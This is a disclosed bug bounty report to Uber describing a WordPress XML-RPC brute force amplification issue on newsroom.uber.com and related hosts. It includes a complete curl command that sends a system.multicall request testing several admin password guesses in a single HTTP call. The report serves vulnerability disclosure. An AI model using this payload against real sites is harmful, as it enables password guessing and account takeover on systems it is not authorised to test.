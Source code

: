 # Brute Force Amplification Attack

## Report Details
- **Report ID**: 125624
- **URL**: https://hackerone.com/reports/125624
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-03-24T06:35:04.959Z
- **Disclosed**: 2016-08-12T17:23:50.190Z

## Reporter
- **Username**: enmach
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: uber

## Vulnerability Information
The websites on following hosts

- newsroom.uber.com
- eng.uber.com
- brand.uber.com

are vulnerable to Wordpress Brute Force Amplification Attack where an attacker can try a large number of Wordpress usernames and password login combinations in single HTTP request (more at https://blog.cloudflare.com/a-look-at-the-new-wordpress-brute-force-amplification-attack/). The attack can be used with large wordlists, because it makes brute forcing login very fast.


Steps to reproduce:

1) execute following curl command:

curl -i -s -k  -X 'POST' \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0' -H 'Content-Type: application/x-www-form-urlencoded' \
    --data-binary $'<?xml version=\"1.0\"?>\x0d\x0a<methodCall>\x0d\x0a<methodName>system.multicall</methodName>\x0d\x0a<params>\x0d\x0a  <param><value><array><data>\x0d\x0a  <value><struct>\x0d\x0a  <member>\x0d\x0a    <name>methodName</name>\x0d\x0a    <value><string>wp.getUsersBlogs</string></value>\x0d\x0a  </member>\x0d\x0a  <member>\x0d\x0a    <name>params</name><value><array><data>\x0d\x0a    <value><array><data>\x0d\x0a    <value><string>admin</string></value>\x0d\x0a    <value><string>1223</string></value>\x0d\x0a    </data></array></value>\x0d\x0a    </data></array></value>\x0d\x0a  </member>\x0d\x0a  </struct></value>\x0d\x0a  <value><struct>\x0d\x0a  <member>\x0d\x0a    <name>methodName</name>\x0d\x0a    <value><string>wp.getUsersBlogs</string></value>\x0d\x0a  </member>\x0d\x0a  <member>\x0d\x0a    <name>params</name>\x0d\x0a    <value><array><data>\x0d\x0a    <value><array><data>\x0d\x0a      <value><string>admin</string></value>\x0d\x0a      <value><string>test</string></value>\x0d\x0a      </data></array></value>\x0d\x0a    </data></array></value>\x0d\x0a  </member>\x0d\x0a  </struct></value>\x0d\x0a  <value><struct>\x0d\x0a  <member>\x0d\x0a    <name>methodName</name>\x0d\x0a    <value><string>wp.getUsersBlogs</string></value>\x0d\x0a  </member>\x0d\x0a  <member>\x0d\x0a    <name>params</name>\x0d\x0a    <value><array><data>\x0d\x0a    <value><array><data>\x0d\x0a      <value><string>admin</string></value>\x0d\x0a      <value><string>uber</string></value>\x0d\x0a      </data></array></value>\x0d\x0a    </data></array></value>\x0d\x0a  </member>\x0d\x0a  </struct></value>\x0d\x0a  </data></array></value>\x0d\x0a  </param>\x0d\x0a</params>\x0d\x0a</methodCall>' \
    'https://newsroom.uber.com/xmlrpc.php'

2) In the above request 3 usernames and passwords combinations are submitted to https://newsroom.uber.com/xmlrpc.php.

3) From the response it is evident that all 3 combinations have been checked on the server.

Attached to this report are screenshots of this issue in Burp proxy. A request and a response to newsroom.uber.com is visible. In the response it is evident that 2 combinations of username and password have been checked on newsroom.uber.com. 


## Attachments
- request-uber.png
- response-uber.png
